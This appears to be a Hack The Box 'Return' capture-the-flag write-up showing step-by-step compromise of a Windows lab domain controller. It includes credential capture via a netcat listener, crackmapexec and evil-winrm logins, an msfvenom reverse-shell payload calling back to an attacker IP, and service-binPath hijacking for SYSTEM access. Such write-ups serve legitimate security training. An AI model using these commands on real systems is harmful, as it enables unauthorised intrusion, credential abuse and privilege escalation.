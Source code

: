 # HTB Return
## OS: Windows
## Difficulty: Easy

## Enumeration:

I'll start with a port scan.
```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.174.86
```

```bash
PORT      STATE SERVICE       VERSION                                                                              
53/tcp    open  domain        Simple DNS Plus                                                                      
80/tcp    open  http          Microsoft IIS httpd 10.0                                                             
| http-methods:                                                                                                    
|_  Potentially risky methods: TRACE                                                                               
|_http-title: HTB Printer Admin Panel                                                                              
|_http-server-header: Microsoft-IIS/10.0                                                                           
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-28 08:27:02Z)                       
135/tcp   open  msrpc         Microsoft Windows RPC                                                                
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn                                                        
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-
Site-Name)                                                                                                         
445/tcp   open  microsoft-ds?                                                                                      
464/tcp   open  kpasswd5?                                                                                          
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0                                                  
636/tcp   open  tcpwrapped                                                                                         
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-
Site-Name)                                                                                                         
3269/tcp  open  tcpwrapped                                                                                         
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                              
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                        
|_http-title: Not Found                                                                                            
9389/tcp  open  mc-nmf        .NET Message Framing                                                                 
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                              
|_http-title: Not Found                                                                                            
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                        
49664/tcp open  msrpc         Microsoft Windows RPC                                                                
49665/tcp open  msrpc         Microsoft Windows RPC                                                                
49666/tcp open  msrpc         Microsoft Windows RPC                                                                
49667/tcp open  msrpc         Microsoft Windows RPC                                                                
49671/tcp open  msrpc         Microsoft Windows RPC                                                                
49675/tcp open  msrpc         Microsoft Windows RPC                                                                
49677/tcp open  msrpc         Microsoft Windows RPC                                                                
49680/tcp open  msrpc         Microsoft Windows RPC                                                                
49697/tcp open  msrpc         Microsoft Windows RPC                                                                
57184/tcp open  msrpc         Microsoft Windows RPC                                                                
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows 
```

Looking at the web server on port 80 we get this:

![pg1](IMG/img1.png)

We also find a settings page for a printer.

![pg2](IMG/img2.png)

I'll change the server address to my IP address and open a port.

```bash
sudo nc -l 389
```

Result:
```
0*`%return\svc-printer
                      1edFg43012!!

```

I think that is a password.

## Foothold 1

I'll use crackmapexec to try to list the SMB shares.

```bash
crackmapexec smb 10.129.174.86 --shares -u 'svc-printer' -p '1edFg43012!!'
```

Result:
```
SMB         10.129.174.86   445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.129.174.86   445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.129.174.86   445    PRINTER          [+] Enumerated shares
SMB         10.129.174.86   445    PRINTER          Share           Permissions     Remark
SMB         10.129.174.86   445    PRINTER          -----           -----------     ------
SMB         10.129.174.86   445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.129.174.86   445    PRINTER          C$              READ,WRITE      Default share
SMB         10.129.174.86   445    PRINTER          IPC$            READ            Remote IPC
SMB         10.129.174.86   445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.129.174.86   445    PRINTER          SYSVOL          READ            Logon server share 
```

After connecting to the C$ share we can find the user flag.

```bash
smbclient -U 'svc-printer' //10.129.174.86/C$
1edFg43012!!

cd Users\svc-printer\Desktop\
get user.txt
exit
cat user.txt
```

## We got the user flag!

## Foothold 2:

Using evil-winrm we can connect to the server.

```bash
evil-winrm -u 'svc-printer' -p '1edFg43012!!' -i 10.129.174.86 "return.local0"
```

## Privilege Escalation:

I found the groups this user belongs to:
```powershell
(New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(samAccountName=$($env:username)))")).FindOne().GetDirectoryEntry().memberOf

CN=Server Operators,CN=Builtin,DC=return,DC=local
CN=Remote Management Users,CN=Builtin,DC=return,DC=local
CN=Print Operators,CN=Builtin,DC=return,DC=local

```

Searching for privilege escalation vectors for these groups I found this link:
https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/

I will follow method 2.

Making the payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.142 lport=6666 -f exe >shell.exe

```

Uploading it on the target and configuring the path for VMTools:
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /tmp/returnHTB/shell.exe

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\shell.exe"

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop VMTools

```

Opening the listening port on our host machine:
```bash
sudo msfconsole -1
use multi/handler
set LHOST tun0
set LPORT 6666
run
```

Executing the payload:
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VMTools
```

![shell](IMG/img3.png)

And it worked! Now we can get the root flag.

```powershell
cd C:\\Users\\Administrator\\Desktop
dir
type root.txt
```

## We got the root flag!